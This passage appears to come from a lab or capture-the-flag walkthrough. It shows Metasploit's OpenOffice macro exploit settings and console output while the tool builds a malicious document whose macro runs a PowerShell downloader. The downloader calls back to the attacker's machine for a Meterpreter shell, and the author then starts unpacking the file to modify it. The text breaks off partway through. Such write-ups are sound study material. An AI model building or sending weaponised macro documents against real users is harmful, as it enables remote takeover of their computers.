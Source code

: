 ```

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.10        yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Apache OpenOffice on Windows (PSH)
```
On running, it will generate a document with a macro. That macro contains code that executes a PowerShell downloader, which reaches back to my Kali box and downloads the rest of the payload, in this case, Meterpreter.

### Generate Document
I’ll run this to generate the document and start the listener.
```
msf5 exploit(multi/misc/openoffice_document_macro) > [*] Using URL: http://0.0.0.0:80/Pc2F6ndgt1H5jGs
[*] Local IP: http://10.1.1.41:80/Pc2F6ndgt1H5jGs
[*] Server started.
[*] Generating our odt file for Apache OpenOffice on Windows (PSH)...
[*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Configurations2                                                                                                           
[*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Configurations2/accelerator
[*] Packaging file: Configurations2/accelerator/current.xml
[*] Packaging file: manifest.rdf
[*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Basic
[*] Packaging file: Basic/script-lc.xml
[*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Basic/Standard
[*] Packaging file: Basic/Standard/Module1.xml
[*] Packaging file: Basic/Standard/script-lb.xml
[*] Packaging file: meta.xml
[*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/META-INF
[*] Packaging file: META-INF/manifest.xml
[*] Packaging file: content.xml
[*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Thumbnails
[*] Packaging file: Thumbnails/thumbnail.png
[*] Packaging file: mimetype
[*] Packaging file: styles.xml
[*] Packaging file: settings.xml
[+] msf.odt stored at /root/.msf4/local/msf.ods
```
Now we can exit metasploit copy the .ods document, to modify it. 
### OpenDocument Format
The OpenDocument Format can be unzipped the same way. If I rename a .ods file to .zip, and unzip, I get:
``` 
$ 7z x msf.ods
```
And the zip content : 
```
├── Basic
```